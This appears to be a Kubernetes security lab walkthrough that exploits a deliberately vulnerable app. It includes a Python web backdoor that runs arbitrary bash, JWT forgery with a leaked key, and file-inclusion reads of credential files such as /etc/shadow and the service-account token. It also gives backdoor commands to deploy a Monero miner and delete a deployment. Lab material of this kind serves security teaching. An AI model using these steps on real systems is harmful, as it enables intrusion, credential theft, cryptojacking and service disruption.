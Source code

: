 # Exploit Application Vulnerabilities


Application vulnerabilities can bring wide range of different entrypoints. In addition to Kubernetes-specific vulnerabilities and misconfigurations, this can lead to various beautiful attacks.



## Attack
- get the `SECRET_KEY`:
  - either find the [leaked value](http://mock-emailx.seck8s.slurm.io/clusters/local/namespaces/vulnapp/deployments/images-api) in the exposed unprotected Dashboard
  - or check the Git-blame to find the hard-coded secret in sources *vulnerability: [hard-coded credentials](https://owasp.org/www-community/vulnerabilities/Use_of_hard-coded_password)*
- register a test user in `auth-api`, get the JWT (with `user_role='user'`)
- proceed to `images-api` with the JWT token, see the image (partially logged in)
- decode the JWT token using the leaked secret key and modify `user_role='admin'` (*vulnerability: [Broken User Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)*)
- proceed to `images-api` with the new token, see the admin page
- read some files: `/var/run/secrets/kubernetes.io/serviceaccount/token`, `./app.py`, `/etc/shadow`, `/proc/1/environ`, etc.: (*vulnerability: [LFI, Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)*)
- write the `./app.py` with backdoor activated via GET parameter `cmd` ([Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload))
    ```python
    ...
    @app.route("/", methods=["GET"])
    def home():
        cmd = request.args.get('cmd')
        if cmd:
            import subprocess
            p = subprocess.run(["bash", "-c", cmd], stderr=subprocess.STDOUT, stdout=subprocess.PIPE)
            return p.stdout.decode()
        ...
    ```
- since the server is in Debug mode, it auto-reloads without restarting the pod
- use the backdoor to install `kubectl`:
  - ?cmd=apt-get+update
  - ?cmd=apt-get+-y+install+curl
  - Next, from https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/:
  - ?cmd=curl%20-LO%20%22https://dl.k8s.io/release/$(curl%20-L%20-s%20https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl%22
  - ?cmd=install%20-o%20root%20-g%20root%20-m%200755%20kubectl%20/usr/local/bin/kubectl
  - ?cmd=kubectl+get+all
- now you can use kubectl configured to the workload's service account:
    ```sh
    # Deploy a miner
    ?cmd=kubectl+apply+-f+images/monero-deployment.yaml
    ?cmd=kubectl+get+all
    ```
- or shut down the cluster's payload (Deployment only, permitted by RBAC)
    ```sh
    ?cmd=kubectl+delete+deployment+auth-api
    ```

> Note: inside the pod, kubectl is authenticated to the pod's SA. However, you could save SA's `token` and `ca.crt` to your local machine and, knowing the Kube API public URI, you can acess it remotely:
> `kubectl --server=https://kubernetes.default.svc --certificate-authority=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) <command>`


## Steps to reproduce

1. Deploy [vulnerable-app/auth-api](vulnerable-app/auth-api) and [vulnerable-app/images-api](vulnerable-app/images-api)
2. Go to [auth service](http://auth.vulnapp.seck8s.slurm.io/)
3. Sign-up any user and login
4. Get redirection to the [image service](https://images.vulnapp.seck8s.slurm.io/) with the greatest cat in the world :)
5. Decode JWT token and try to get more privileges
6. Write any interesting file (take a look at the image b64 data you'll receive)
7. Upload any interesting file (note: the container runs as root so you're relatively free)
8. Get working `kubectl` for the cluster

